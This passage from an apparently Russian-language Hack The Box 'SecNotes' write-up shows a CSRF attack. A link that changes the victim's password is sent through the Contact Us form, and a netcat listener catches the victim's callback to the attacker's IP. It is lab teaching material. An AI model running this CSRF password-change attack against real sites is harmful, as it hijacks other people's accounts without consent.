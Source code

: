 Защита от подобного рода атак тривиальна: вводятся дополнительные сущности (CSRF-токены), выступающие в роли уникального для каждой сессии секретного значения, которое определяет легитимность запроса.

### Change Password
Когда, залогинившись, мы осматривались на главной сайте, мы видели опцию **Change Password**. Вот, что она из себя представляет:

[![port80-browser-5.png]({{ "/img/htb/boxes/secnotes/port80-browser-5.png" | relative_url }})]({{ "/img/htb/boxes/secnotes/port80-browser-5.png" | relative_url }})
{: .center-image}

А вот что мы видим при изменении пароля на `newpass` и просмотре тела запроса в Burp'е (будет нужно чуть позже):
```http
POST /change_pass.php HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.97/change_pass.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Cookie: PHPSESSID=jub4fv6e4epac1dimscs0mse0r
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

password=newpass&confirm_password=newpass&submit=submit
```

### XSRF в действии
Учитывая тот факт, что гипотетический Тайлер кликает на все ссылки, которые содержатся в сообщении из "Contact Us", подсунем ему линк на смену своего же пароля (запрос ведь будет выполнен от его имени) и сигнализируем себе на машину об успехе операции:

[![port80-browser-6.png]({{ "/img/htb/boxes/secnotes/port80-browser-6.png" | relative_url }})]({{ "/img/htb/boxes/secnotes/port80-browser-6.png" | relative_url }})
{: .center-image}

```text
root@kali:~# nc -lvnp 80
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.97.
Ncat: Connection from 10.10.10.97:49696.
GET /SUCCESS HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17134.228
Host: 10.10.14.71
Connection: Keep-Alive
```
